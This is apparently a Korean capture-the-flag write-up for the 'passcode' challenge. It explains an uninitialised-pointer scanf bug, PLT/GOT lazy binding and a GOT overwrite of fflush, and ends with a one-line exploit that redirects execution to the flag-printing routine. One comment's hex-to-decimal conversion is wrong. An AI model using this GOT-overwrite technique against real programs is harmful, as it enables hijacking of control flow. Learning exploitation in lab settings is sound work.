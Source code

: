 ```yaml
---
sort: 5
---
```


# passcode

home 디렉토리에 passcode.c 파일을 통해 소스코드를 볼 수 있다.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

login함수에 scanf사용되는 곳 보면 passcode1과 passcode2앞에 &가 붙어있지 않은 것을 볼 수 있다. 따라서 passcode1과 passcode2의 주소값이 아닌 passcode1과 passcode2에 담겨있는 값 자체를 주소값으로써 사용하게 된다. passcode1, 2는 초기화가 되지 않으므로 메모리 상에 존재하는 쓰레기 값이 사용될 수 있다. 이 쓰레기 값을 우리가 조작할 수 있다면 충분히 exploit할 수 있을 것이다.<br><br>
사용자가 넣을 수 있는 input값으로 welcome의 name이 있으니 해당 부분과 passcode1, 2의 주소값을 살펴보았다.

```gdb
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp

   ... (중략) ...

   0x0804862f <+38>:    lea    -0x70(%ebp),%edx    <-- name
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>

   ... (후략) ...

(gdb) b* 0x08048632        <-- name의 주소가 edx안에 있음
Breakpoint 1 at 0x8048632

(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp

   ... (중략) ...

   0x0804857c <+24>:    mov    -0x10(%ebp),%edx     <-- passcode1
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>

   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    $0x8048786,%eax
   0x0804859d <+57>:    mov    %eax,(%esp)
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    $0x8048783,%eax

   0x080485aa <+70>:    mov    -0xc(%ebp),%edx      <-- passcode2
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>

   ... (중략) ...

   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>

   ... (후략) ...

(gdb) b* 0x0804857f        <-- passcode1의 주소가 ebp - 0x10임
Breakpoint 2 at 0x804857f

Breakpoint 1, 0x08048632 in welcome ()
(gdb) i r edx
edx            0xffb89088       -4681592  <-- name의 주소

Breakpoint 2, 0x0804857f in login ()
(gdb) i r ebp
ebp            0xffb890f8       0xffb890f8   <-- login함수의 ebp값. passcode1과 passcode2는 같은 함수 내에 있으므로 ebp 값이 같음.
```

정리를 하자면, gdb로 살펴보았을 때 name의 주소는 0xffb89088, passcode1의 주소는 0xffb890e8, passcode2의 주소는 0xffb890ec이다. <br>
어차피 stack에는 ASLR이 걸려있기 때문에 각각의 주소값 자체는 변하겠지만 주소 사이의 간격은 변하지 않기 때문에 간격을 계산해야한다. <br><br>
name과 passcode1과의 간격 : 0xffb890e8 - 0xffb89088 = 96byte <br>
name과 passcode2와의 관격 : 0xffb890ec - 0xffb89088 = 100byte <br><br>
name에 입력할 수 있는 최대길이가 100byte이기 때문에 passcode1값만 임의로 조작할 수 있다.<br>
그리고 또 하나 중요한 사실은, passcode2값은 조종할 수 없기 때문에 passcode2에는 쓰레기값이 들어가있다. 따라서 passcode2를 사용하는 login의 두번째 scanf를 처리하는 도중 segmentation fault가 발생하게 된다. 결국 두번째 scanf에 다다르기 전에 passcode1의 조작을 통해 프로그램의 흐름을 변경해야 segmentation fault가 발생하지 않고 공격에 성공할 수 있게 된다. **함수들이 plt, got를 이용한다는 점을 이용하여 두번째 scanf에 도달하기 전에 존재하는 함수의 got값을 조작하여 프로그램의 흐름을 변경하려고 한다.**

## plt, got

shared library에 존재하는 함수들의 동적 load를 위해서 plt, got가 사용된다.<br>
plt는 함수를 동적으로 로드하는 루틴 및 실제 함수 루틴으로 연결해주는 연결고리 역할을 하는 코드이고, got는 plt루틴이 점프할 위치(주소값)를 저장해놓는 영역이다.<br>

```gdb
(gdb) x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    *0x804a004 <-- fflush함수의 got영역
   0x8048436 <fflush@plt+6>:    push   $0x8       <-- fflush함수 동적 load루틴
   0x804843b <fflush@plt+11>:   jmp    0x8048410

(gdb) x/wx 0x804a004
0x804a004 <fflush@got.plt>:     0x08048436
```

프로그램이 실행되자마자 사용되는 함수들을 모두 load해놓고 프로그램을 돌리지 않는다. **프로그램에서 해당 함수를 처음 호출할 때가 되어서야 해당 함수를 load하는데, 이를 lazy binding이라고 한다.** <br>
got영역에는 plt에서 jump할 주소가 들어있는데, 함수가 처음으로 호출될때에는 해당 함수를 동적으로 load하는 루틴으로 jump하도록 하는 루틴의 주소로 설정되어있다. 해당 주소는 plt영역내에 있다.<br>
함수를 load하는 루틴에서 함수를 load한 후 함수의 주소를 got영역에 쓴다. 따라서 해당 함수를 다시 부르게 될 경우, got값이 해당 함수 값으로 변경이 되어있기 때문에 다시 load 루틴으로 가지 않고 바로 함수로 jump하게 된다.<br><br>
**따라서 함수의 got값을 조진다면, 프로그램의 흐름을 원하는대로 바꿀 수 있게 된다.** <br><br>
login함수를 살펴보니, 첫번째 scanf와 두번째 scanf사이에 fflush함수가 존재하길래 fflush함수의 got값을 login함수 내에 존재하는 system("/bin/cat flag") 루틴의 주소로 변경했다.<br>
name을 통해서 passcode1부분에 fflush의 got영역 주소를 쓰고, login함수의 첫번째 scanf에서 system("/bin/cat flag")루틴의 주소를 입력하게 되면 fflush함수가 호출되는 순간 flag를 얻을 수 있다.

```bash
#                        fflush got의 주소 = 0x804a004        0x080485e3 = 134514135
passcode@pwnable:~$ (python -c "print('\x04\xa0\x04\x08'*25+'\n134514135\n')";cat) | ./passcode
```

```tip
## 알게 된 점

scanf쓸 때 & 잘 붙이자.

plt, got, lazy binding
```